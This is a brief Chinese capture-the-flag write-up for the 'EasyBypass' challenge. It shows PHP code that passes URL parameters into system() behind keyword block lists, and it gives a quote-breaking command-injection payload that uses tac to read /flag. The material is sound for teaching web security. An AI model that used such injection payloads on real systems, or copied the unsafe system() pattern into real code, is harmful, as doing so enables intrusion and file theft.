

# EasyBypass

## 知识点

`php代码审计`

`命令执行`

## 解题

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

发现`$comm1`处没有匹配到`tac`，命令执行绕过方式绕过，使用`payload`

```
?comm1=a";tac /fl*;"&comm2=a
```



